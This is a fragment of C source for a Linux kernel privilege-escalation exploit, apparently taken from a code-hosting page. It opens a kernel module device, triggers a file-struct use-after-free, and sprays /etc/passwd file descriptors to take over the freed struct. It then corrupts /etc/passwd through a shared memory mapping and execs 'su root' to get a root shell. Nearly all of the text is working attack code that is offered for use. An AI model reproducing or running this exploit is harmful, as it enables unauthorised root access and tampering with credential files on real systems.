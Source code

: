 ```c
		// Waiting for corruption completion.
		sleep(3);
	
	 	// Changing user to root.
		char *argvx[3] = { "/bin/su", "root", NULL };
		execve("/bin/su", &argvx, NULL);
		
		// Should never be reached.
		return 1;
	}

	// Opening LKM.
	puts("[+] Opening LKM");
	device_fd = open(DEVICE_FILE, O_RDONLY);
	if (device_fd < 0) {
		err(0, "[-] Failed to open device file");
	}

	// Opening tmp file.
	puts("[+] Opening tmp file");
	fd0 = open(TMP_FILE, O_CREAT | O_RDWR, 0666);
	if (fd0 < 0) {
		err(0, "[-] Failed to open %s", TMP_FILE);
	}

	// Allocating some bytes into tmp file to prevent bus error.
	// fallocate or ftruncate are other viable options.
	puts("[+] Allocating some bytes into tmp file to prevent bus error");
	write(fd0, placeholder, strlen(placeholder));

	// Mapping tmp file into memory.
	// Size 1 allocates minimum size which is an entire page.
	puts("[+] Mapping tmp file into memory");
	ptr = mmap(NULL, 1, PROT_READ | PROT_WRITE, MAP_SHARED, fd0, 0);
	if (ptr == MAP_FAILED) {
		err(0, "[-] Failed to map %s into memory", TMP_FILE);
	}

	// Limiting the max amount of file descriptors.
	puts("[+] Limiting max amount of file descriptors");
	set_fd_limit(0, 4096);	

	// Forcing file struct release through file->f_count->counter decrement. 
	puts("[+] Forcing file struct release. Expecting EBADF:");
	fd1 = install_file(device_fd, &fd0);
	fd1 = install_file(device_fd, &fd0);

	// Extending max amount of file descriptors.
	puts("[+] Extending max amount of file descriptors");
	set_fd_limit(4096, 4096);	

	// Spray to fill the previously freed file struct with a /etc/passwd file struct. 
	puts("[+] Spraying file structs pointing to /etc/passwd");
	for(int i = 0; i < 512; i++) {
		fd_spray[i] = open("/etc/passwd", O_RDONLY);
       		if (fd_spray[i] < 0) {
                	err(0, "[-] Failed to spray /etc/passwd");
        	}
	}
	
	// Checking for successful UAF.
	puts("[+] Checking for successful UAF. Content should be from /etc/passwd:");
	fputs(ptr, stdout);
```
